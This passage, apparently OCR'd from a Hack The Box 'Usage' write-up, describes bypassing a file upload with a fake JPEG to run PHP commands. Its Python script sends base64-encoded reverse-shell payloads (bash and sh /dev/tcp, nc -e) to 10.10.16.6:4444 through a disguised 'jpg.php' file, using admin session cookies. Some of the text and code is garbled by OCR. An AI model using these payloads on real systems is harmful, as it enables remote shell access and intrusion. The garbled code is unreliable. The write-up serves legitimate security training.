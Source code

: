 ```rust
Hexadecimal ->
ffd8 ffe0 0010 4a46 4946 0001 0101 0048 0000 ffe1 0090 4578 6966 0000 

Xxd view ->
00000000: ffd8 ffe0 0010 4a46 4946 0001 0101 0048  ......JFIF.....H
00000010: 0000 ffe1 0090 4578 6966 0000            ......Exif..
```
####
<div class="tip">

> Is thime to craft our custom script the will help us to automate the php **revershell code** execution in the website throught malicius image.
</div>

####
Although we managed to insert this and use it, the website performs a scan that deletes the file, so we have to be quick
and insert the payload. Furthermore, the website doesn't interpret the one-liners even when *Url-encoding* the data, so
we'll try something different.
####
```python
import requests
from base64 import b64encode, b64decode

url = "http://admin.usage.htb/uploads/images"
fake_img_file_name = "false_image.jpg.php" -> Create the image and adjust the path

payload_1 = b"sh -i > /dev/tcp/10.10.16.6/4444 2>&1 <&1"
payload_2 = b"bash -c 'bash -i >& /dev/tcp/10.10.16.6/4444 0>&1'"
payload_3 = b"nc -e /bin/bash 10.10.16.6 4444"

request = f"echo {b64encode(payload_1).decode('utf-8')} | base64 -d | bash"
craft_url = f"{url}/{fake_img_file_name}?cmd={request}"
print(craft_url)

cookies = {
    "remember_admin_59ba36addc2b2f9401580f014c7f58ea4e30989d":"eyJpdiI6IjhCL1JnOGZoTFRZM1U2cTJNFZjZEE9PSIsInZhbHVlIjoiVmFMYS95T0hNcFJla005ZXJNNTVHQ0V1em1RU1gzRmJiU2ViVllzdlliT3RwTW5yK3I5lBsK3vN1lIVmxHU0hEemJPZVdraVRCS0dqdGh4SS9WQnZpWFN6TkJuNgvenBTa1Z2QmlHd2doQTRzQWhOOXVqZ3d6MWDSjNsajhyUThlRHZ4YlZIcm5KT0NkZnZRVnBDcnBvdWowlMyaDBYNDgwL3hmY3RxV21zQnpLRHIwenJ3OGE4WGp6bTFOS9hQURHR1pWK0ZQejkxd1NVOGp5OHJjcWpXUmsvcWZJRjErYWdMlJvRT0iLCJtYWMiOiJkM2QyYjI4YWYwNWwNzJiOBiYjJkZDYwM2JlMjViMDJlMGYyNmQxNmQ5M2VmZjZiNGMxYTJiMzMzNDc5ZjNlIiwidGFnIjoiIn0%3D",
    "XSRF-TOKEN":"eyJpdiI6Ik0za0lKNnR5WFdsQWZlb2kyeTY0QXc9PSIsInZhbHVlIjoiU3lqWUE2YVpkMitJa1hGRIrR0JIcEFTQVE5SVp2clZLazYveGlmKzEyejgzNkNZZ0dqTUcyTj4dnc1RUhubnVKLy9nN1NrVklhQUhKSkxSTUlqK0yMDBKZUNkMdPR1J4KzV5bzFiblhHaDAyeFdrY1NVaEpsQ2ttMFlLK24iLCJtYWMiOiI0YmU4MTQ3YWNiMThkZjg4MzIDI2YzNiMjk0YTE1MmJkN2E1ZGY5YmQyNDcxOGM4MTU5NmUwNjQxNzAxZjIzIiwidGFnIjoiIn0%3D",
    "laravel_session":"eyJpdiI6Ik44QThTL3BOZUFkcGdLb1Z5eTBaZ0E9PSIsInZhbHVlIjoiYTZQYStpaXpLakd1npOTFZaSFlwMXpZdEU5ZmorclJKang1U2pSTzdISzJsaHQzWmFtd3lDNzQSjM2cTEvOEhKTG9sVXE1VWRBNlpWaGdUTQxSFFReS92ZmlaTRSMFpSdXAybUlMaVFoOGdkZzdzbzFhOUlRdlVyclJsb0YiLCJtYWMiOiIyMDNiYzk1MWZjYzc5M2zMmIwGFjYWJiMzNjYWZmNDljMGFiNmFlN2EzMjMzNWIzYjM2NTBiMTQyMTIyMWIzIiwidGFnIjoiIn0%3D"
}

response = requests.post(url=craft_url, cookies=cookies)

if response.status_code == 200:
    print(f"Request sending using: {request}")
elif response.status_code == 404:
    print("File not found, the server deleted file")
```
####
<div class="warning">
